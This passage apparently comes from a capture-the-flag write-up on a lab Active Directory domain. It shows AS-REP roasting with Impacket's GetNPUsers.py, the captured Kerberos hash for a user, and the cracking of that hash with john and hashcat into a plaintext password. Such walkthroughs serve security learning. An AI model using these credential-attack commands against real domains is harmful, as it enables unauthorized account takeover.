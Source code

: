 Since we have list of valid usernames, we can perform the "**ASREPRoasting" attack.**

{% hint style="success" %}
**ASReproasting** occurs when a user account has the privilege **“**<mark style="color:orange;">**Does not require Pre-Authentication**</mark>**”** set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

We can retrieve Kerberos tickets using a tool called “**GetNPUsers.py**” in [Impacket](https://github.com/SecureAuthCorp/impacket). This allows us to query ASREProastable accounts from the Key Distribution Center. The only thing that’s necessary to query accounts is a valid set of usernames, which we enumerated previously during our SMB enumeration.
{% endhint %}

We save those valid usernames into a list "users.txt".

{% code overflow="wrap" lineNumbers="true" fullWidth="true" %}
```bash
GetNPUsers.py vulnnet-rst.local/ -usersfile users.txt -no-pass -dc-ip 10.10.27.191 -outputfile kerberos_users.txt

# results.
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:c856d8d6b0ae2a8222e4e65fe7a50ff4$0b6c47183820baa125094946ca444685b8a7eaf90cd2ac8d25c164767cf83e301781132223d288de1a6ba9f188bb6aa30755dcbf8a1c5b68319fbb3595efa0695d7eef3c3fbb06efe2afe82897bfdde137e4a6fbb23670a82876f61be26327d82b6f49015742f77751df2432844fe1274de259ceeebdcc632a4e6d6bff4a5543e2cf9fe3ffcfc84f3a7e99ec1ae337ba1886e2aa77c29754aa3f44019bdf9aa77f98967504ea1233ec100d2d5f42ab0a30f246de2f9fb8caa932e40aed78f7b9a14b4f6cfb37f02cc157d55e3dcd719b9aa35674ea5f48ab32a4196700974e6f61f9ab5ddc1131413cf6ab7e69d6f4328e20ece32adc
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set

```
{% endcode %}

The user `t-skid` had no preauthentication enabled and thus we got an ASREP for the user `t-skid`. This ASREP includes the TGT and a part which contains the session key for the communication between the user and the TGS.&#x20;

Cracking the hash.

{% code overflow="wrap" lineNumbers="true" %}
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

# results.
tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL) 

# using hashcat.
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
```
{% endcode %}
